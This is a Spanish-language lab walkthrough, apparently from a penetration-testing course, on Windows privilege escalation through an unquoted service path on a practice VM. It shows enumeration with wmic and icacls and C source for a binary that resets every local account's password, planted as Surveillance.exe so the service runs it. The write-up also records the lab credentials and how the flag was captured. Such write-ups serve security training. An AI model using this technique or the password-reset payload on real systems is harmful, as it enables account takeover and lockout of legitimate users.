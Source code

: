                                                              
# Walk: Windows Privilege Escalation - Unquoted Service Paths - VM #2

## Fecha: 09/03/2025
## Host: Windows
## IP: 192.168.105.221
## Objetivo
Connect to _CLIENTWK221_ (VM #2) via RDP as user _damian_ with the password _ICannotThinkOfAPassword1!_. Enumerate the services and find an unquoted service binary path containing spaces. Exploit it with methods from this section and obtain an interactive shell as the user running the service. Find the flag on the desktop.
## Herramientas
1. tool - 1
2. tool - 2
## Procedimiento y comandos
#### Paso 1: Enumeracion en _damian_
> Ejecutar este comando en **cmd** no en powershell
1. `wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """` 
```
C:\Users\damian>wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
Name                                       PathName
BackupMonitor                              C:\BackupMonitor\BackupMonitor.exe
LSM
NetSetupSvc
ReynhSurveillance                          C:\Enterprise Software\Monitoring Solution\Surveillance Apps\ReynhSurveillance.exe
```
#### Paso 2: Revisamos permisos en las rutas de _Survillance_
```
PS C:\Users\damian> icacls "C:\"
C:\ BUILTIN\Administrators:(OI)(CI)(F)
    NT AUTHORITY\SYSTEM:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(RX)
    NT AUTHORITY\Authenticated Users:(OI)(CI)(IO)(M)
    NT AUTHORITY\Authenticated Users:(AD)
    Mandatory Label\High Mandatory Level:(OI)(NP)(IO)(NW)

Successfully processed 1 files; Failed processing 0 files
------------------------
PS C:\Users\damian> icacls "C:\Enterprise Software"
C:\Enterprise Software BUILTIN\Administrators:(OI)(CI)(F)
                       NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                       BUILTIN\Users:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
------------------------
PS C:\Users\damian> icacls "C:\Enterprise Software\Monitoring Solution"
C:\Enterprise Software\Monitoring Solution CLIENTWK221\damian:(OI)(CI)(RX,W)
                                           BUILTIN\Administrators:(OI)(CI)(F)
                                           NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                           BUILTIN\Users:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files

-------------------------
PS C:\Users\damian> icacls "C:\Enterprise Software\Monitoring Solution\Surveillance Apps"
C:\Enterprise Software\Monitoring Solution\Surveillance Apps BUILTIN\Administrators:(OI)(CI)(F)
                                                             NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                                             BUILTIN\Users:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
-------------------------
PS C:\Users\damian> icacls "C:\Enterprise Software\Monitoring Solution\Surveillance Apps\ReynhSurveillance.exe"
C:\Enterprise Software\Monitoring Solution\Surveillance Apps\ReynhSurveillance.exe BUILTIN\Administrators:(I)(F)
                                                                                   NT AUTHORITY\SYSTEM:(I)(F)
                                                                                   BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```
>PS C:\Users\damian> icacls "C:\Enterprise Software\Monitoring Solution" es la ruta que buscamos.

- Nuestro script malicioso debe llevar el nombre de **_Surveillance.exe_**

#### Paso 3: Creamos un ejecutable que nos permita acceder a todos los usuarios:
1. Creamos el script:
```
#include <stdio.h>
#include <stdlib.h>

int main() {
    FILE *fp;
    char user[256];

    // Ejecuta el comando 'net user' y captura la salida
    fp = popen("net user", "r");
    if (fp == NULL) {
        printf("Error al ejecutar el comando.\n");
        return 1;
    }

    // Ignorar las primeras líneas de salida (formato del comando)
    for (int i = 0; i < 4; i++)
        fgets(user, sizeof(user), fp);

    // Leer cada usuario y cambiar su contraseña
    while (fscanf(fp, "%s", user) != EOF) {
        if (user[0] != '-') { // Evitar líneas con separadores
            char command[512];
            snprintf(command, sizeof(command), "net user %s NewPassword123!", user);
            printf("Cambiando contraseña para: %s\n", user);
            system(command);
        }
    }

    pclose(fp);
    return 0;
}
```
2. Compilamos: `sudo x86_64-w64-mingw32-gcc changeAllPass.c -o Surveillance.exe`
3. Servimos con python y solicitamos desde _damian_

#### Paso 4: Obtenemos el flag
> Una vez obtenemos el ejecutable dentro de _damian_
1. Revisamos permisos para detener o inicar el servicio con **Start-Service** y **Stop-Service**, una vez confirmamos que tenemos control sobre la ejecucion del servicio, copiamos el ejecutable en el directorio vulnerable y lo ejecutamos iniciando el servicio.
2. Generamos un login a cualquier usuario con runas.. y confirmamos el acceso: **NewPassword123!**
3. Buscamos hasta encontrar el usuario con el flag, en este caso _**roy**_
```
C:\Windows\system32>cd C:\Users\roy\Desktop

C:\Users\roy\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 045E-FF31

 Directory of C:\Users\roy\Desktop

11/15/2022  10:11 AM    <DIR>          .
12/06/2022  03:24 PM    <DIR>          ..
03/09/2025  02:39 PM                38 flag.txt
11/14/2022  04:33 PM             2,354 Microsoft Edge.lnk
               2 File(s)          2,392 bytes
               2 Dir(s)   3,868,000,256 bytes free

C:\Users\roy\Desktop>type flag.txt
OS{627c****************************99f0}
```
